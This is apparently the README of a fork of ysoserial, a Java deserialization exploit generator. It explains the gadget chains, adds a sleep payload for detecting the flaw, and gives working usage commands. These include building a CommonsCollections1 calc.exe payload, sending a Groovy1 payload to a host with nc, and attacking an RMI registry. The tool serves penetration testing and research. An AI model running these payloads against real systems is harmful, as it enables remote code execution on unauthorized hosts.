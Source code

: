 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) 

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

This version edited by Federico Dotta add the possibility to generate a gadget that lead to the java.lang.Thread.sleep function in addction
to the java.lang.Runtime.exec one. The sleep function can be easly used to verify the presence of the vulnerability, before using the 
exec payload to exploit it. It is usefull to have an easy way to detect the presence of the issue because the exec command don't return any output
and in some cirumstances can be very hard to understand if the injected command has been executed.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-with-sleep-payloads.jar [payload type] [payload function] '[command to execute]'
        Available payload types:
                CommonsCollections1
                CommonsCollections2
                CommonsCollections3
                CommonsCollections4
                Groovy1
                Spring1
                Jdk7u21

        Available payload functions:
                exec
                sleep        
```

## Examples

```shell
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar CommonsCollections1 exec calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.3-with-sleep-payloads.jar Groovy1 exec calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.3-with-sleep-payloads.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 exec calc.exe
```

## Installation

1. Download the latest jar from the "releases" section.

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
